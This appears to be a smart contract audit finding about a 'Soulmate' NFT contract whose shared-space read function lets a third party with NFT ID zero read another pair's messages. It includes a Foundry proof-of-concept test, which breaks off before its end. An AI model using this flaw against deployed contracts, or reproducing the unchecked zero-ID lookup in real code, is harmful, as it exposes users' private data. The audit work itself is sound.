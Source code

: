 ## Code Snippet
  /// @notice Allows any soulmates with the same NFT ID to read in a shared space on blockchain.
    function readMessageInSharedSpace() external view returns (string memory) {
        // Add a little touch of romantism
        return
            string.concat(
                sharedSpace[ownerToId[msg.sender]],
                ", ",
                niceWords[block.timestamp % niceWords.length]
            );
    }

## Impact
The impact is that the person with zero NFT ID have lack of privacy for their message.
## POC
function test_ThirdpersoncanReadSharedSpace() public {
        vm.prank(alice);
        
        soulmateContract.mintSoulmateToken();
        vm.prank(charlie);
       
        soulmateContract.mintSoulmateToken();
        vm.prank(alice);
       
        soulmateContract.writeMessageInSharedSpace("Buy some eggs");
        vm.prank(charlie);
       
        string memory message = soulmateContract.readMessageInSharedSpace();

        string[4] memory possibleText = [
            "Buy some eggs, sweetheart",
            "Buy some eggs, darling",
            "Buy some eggs, my dear",
            "Buy some eggs, honey"
        ];
        bool found;
        for (uint i; i < possibleText.length; i++) {
            if (compare(possibleText[i], message)) {
                found = true;
                break;
            }
        }
        console2.log(message);
        assertTrue(found);
        vm.prank(bob);
        
        string memory message1 = soulmateContract.readMessageInSharedSpace();

        string[4] memory possibleText1 = [
            "Buy some eggs, sweetheart",
            "Buy some eggs, darling",
            "Buy some eggs, my dear",
            "Buy some eggs, honey"
        ];
        bool found1;
        for (uint i; i < possibleText1.length; i++) {
            if (compare(possibleText1[i], message1)) {
                found1 = true;
                break;
            }
        }
        console2.log(message1);
        assertTrue(found1);
    
